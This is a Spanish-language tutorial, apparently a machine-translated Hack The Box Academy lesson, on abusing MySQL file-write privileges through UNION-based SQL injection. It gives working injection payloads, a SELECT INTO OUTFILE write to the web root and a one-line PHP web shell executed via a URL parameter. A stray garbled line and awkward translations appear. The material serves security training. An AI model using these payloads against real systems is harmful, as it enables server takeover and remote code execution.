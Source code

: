 # Writing Files

Cuando se trata de escribir archivos en el servidor de back-end, se vuelve mucho más restringido en los DBMS modernos, ya que podemos utilizar esto para escribir un shell web en el servidor remoto, por lo tanto, obtener la ejecución del código y hacerse cargo del servidor. Esta es la razón por la cual los DBMS modernos desactivan el archivo de archivos de forma predeterminada y requieren ciertos privilegios para que DBA escriba archivos. Antes de escribir archivos, primero debemos verificar si tenemos suficientes derechos y si el DBMS permite escribir archivos.

---

# **Escribir privilegios de archivo**

Para poder escribir archivos en el servidor de back-end utilizando una base de datos MySQL, requerimos tres cosas:

1. Usuario`FILE`privilegio habilitado
2. MySQL Global`secure_file_priv`variable no habilitada
3. Acceso de escritura a la ubicación que queremos escribir en el servidor de back-end

Ya hemos descubierto que nuestro usuario actual tiene el`FILE`privilegio necesario para escribir archivos. Ahora debemos verificar si la base de datos MySQL tiene ese privilegio. Esto se puede hacer revisando el`secure_file_priv`variable global.

### **seguro_file_priv**

El[seguro_file_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv)La variable se usa para determinar de dónde leer/escribir archivos. Un valor vacío nos permite leer archivos de todo el sistema de archivos. De lo contrario, si se establece un determinado directorio, solo podemos leer desde la carpeta especificada por la variable. Por otro lado,`NULL`significa que no podemos leer/escribir desde ningún directorio. Mariadb tiene esta variable configurada en vacío de forma predeterminada, lo que nos permite leer/escribir en cualquier archivo si el usuario tiene el`FILE`privilegio. Sin embargo,`MySQL`usos`/var/lib/mysql-files`como la carpeta predeterminada. Esto significa que leer archivos a través de un`MySQL`La inyección no es posible con la configuración predeterminada. Peor aún, algunas configuraciones modernas predeterminadas a`NULL`, lo que significa que no podemos leer/escribir archivos en ningún lugar dentro del sistema.

Entonces, veamos cómo podemos descubrir el valor de`secure_file_priv`. Dentro`MySQL`, podemos usar la siguiente consulta para obtener el valor de esta variable:

Código:sql

```sql
SHOW VARIABLES LIKE 'secure_file_priv';

```

Sin embargo, mientras estamos usando un`UNION`inyección, tenemos que obtener el valor usando un`SELECT`declaración. Esto no debería ser un problema, ya que todas las variables y la mayoría de las configuraciones se almacenan dentro del`INFORMATION_SCHEMA`base de datos.`MySQL`Las variables globales se almacenan en una tabla llamada[global_variables](https://dev.mysql.com/doc/refman/5.7/en/information-schema-variables-table.html), y según la documentación, esta tabla tiene dos columnas`variable_name`y`variable_value`.

Tenemos que seleccionar estas dos columnas de esa tabla en el`INFORMATION_SCHEMA`base de datos. Hay cientos de variables globales en una configuración de MySQL, y no queremos recuperarlas todas. Luego filtraremos los resultados para mostrar solo el`secure_file_priv`variable, usando el`WHERE`Cláusula sobre la que aprendimos en una sección anterior.

La consulta SQL final es la siguiente:

Código:sql

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"

```

Entonces, similar a otros`UNION`Consultas de inyección, podemos obtener el resultado de la consulta anterior con la siguiente carga útil. Recuerda agregar dos columnas más`1` & `4`como datos basura para tener un total de 4 columnas:

Código:sql

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -

```

![](https://academy.hackthebox.com/storage/modules/33/secure_file_priv.jpg)

Y el resultado muestra que el`secure_file_priv`El valor está vacío, lo que significa que podemos leer/escribir archivos en cualquier ubicación.

---

# **Seleccionar en Outfile**

Ahora que hemos confirmado que nuestro usuario debe escribir archivos en el servidor de back-end, intentemos hacerlo utilizando el`SELECT .. INTO OUTFILE`declaración. El[Seleccionar en Outfile](https://mariadb.com/kb/en/select-into-outfile/)La declaración se puede usar para escribir datos de consultas selectas en archivos. Esto generalmente se usa para exportar datos de tablas.

Para usarlo, podemos agregar`INTO OUTFILE '...'`Después de nuestra consulta para exportar los resultados en el archivo que especificamos. El siguiente ejemplo guarda la salida del`users`mesa en el`/tmp/credentials`archivo:

Escribir archivos

```
SELECT * from users INTO OUTFILE '/tmp/credentials';

```

Si vamos al servidor de back-end y`cat`el archivo, vemos el contenido de esa tabla:

Escribir archivos

```
xnoxos@htb[/htb]$ cat /tmp/credentials 1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f

```

También es posible directamente`SELECT`Strings en archivos, lo que nos permite escribir archivos arbitrarios en el servidor de back-end.

Código:sql

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';

```

Cuando nosotros`cat`el archivo, vemos ese texto:

Escribir archivos

```
xnoxos@htb[/htb]$ cat /tmp/test.txt this is a test

```

Escribir archivos

```
xnoxos@htb[/htb]$ ls -la /tmp/test.txt -rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt

```

Como podemos ver arriba, el`test.txt`el archivo fue creado con éxito y es propiedad de la`mysql`usuario.

Consejo: las exportaciones de archivos avanzados utilizan la función 'from_base64 ("base64_data")' para poder escribir archivos largos/avanzados, incluidos los datos binarios.

---

# **Escribir archivos a través de la inyección SQL**

Intentemos escribir un archivo de texto en la raíz web y verificar si tenemos permisos de escritura. La consulta a continuación debe escribir`file written successfully!`hacia`/var/www/html/proof.txt`Archivo, al que podemos acceder en la aplicación web:

Código:sql

```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'

```

**Nota:**Para escribir un shell web, debemos conocer el directorio web base para el servidor web (es decir, la raíz web). Una forma de encontrarlo es usar`load_file`Para leer la configuración del servidor, como la configuración de Apache que se encuentra en`/etc/apache2/apache2.conf`, Configuración de Nginx en`/etc/nginx/nginx.conf`, o configuración IIS en`%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, o podemos buscar en línea otras posibles ubicaciones de configuración. Además, podemos ejecutar un escaneo confuso e intentar escribir archivos en diferentes posibles raíces web, utilizando[Esta lista de palabras para Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)o[Esta lista de palabras para Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finalmente, si ninguno de los anteriores funciona, podemos usar errores del servidor que se nos muestran e intentar encontrar el directorio web de esa manera.

El`UNION`La carga útil de la inyección sería la siguiente:

Código:sql

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -

```

![](https://academy.hackthebox.com/storage/modules/33/write_proof.png)

No vemos ningún error en la página, lo que indica que la consulta tuvo éxito. Verificar el archivo`proof.txt`En la raíz web, vemos que de hecho existe:

![](https://academy.hackthebox.com/storage/modules/33/write_proof_text.png)

Nota: Vemos la cadena que arrojamos junto con '1', '3' antes y '4' después. Esto se debe a que todo el resultado de la consulta de 'unión' se escribió en el archivo. Para que la salida sea más limpia, podemos usar "" en lugar de números.

---

# **Escribir un shell web**

Habiendo confirmado los permisos de escritura, podemos seguir adelante y escribir un shell web de PHP en la carpeta Webroot. Podemos escribir el siguiente WebShell PHP para poder ejecutar comandos directamente en el servidor de fondo:

Código:php

```php
<?php system($_REQUEST[0]);?>
```

Podemos reutilizar nuestro anterior`UNION`carga útil de inyección y cambiar la cadena a lo anterior, y el nombre del archivo a`shell.php`:

Código:sql

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

```

   ', "", "" En Outfile' /var/www/html/shell.php'---'>

![](https://academy.hackthebox.com/storage/modules/33/write_shell.png)

Una vez más, no vemos ningún error, lo que significa que la escritura de archivo probablemente funcionó. Esto se puede verificar navegando al`/shell.php`archivo y ejecución de comandos a través del`0`parámetro, con`?0=id`En nuestra URL:

![](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

La salida del`id`El comando confirma que tenemos la ejecución del código y nos estamos ejecutando como el`www-data`usuario.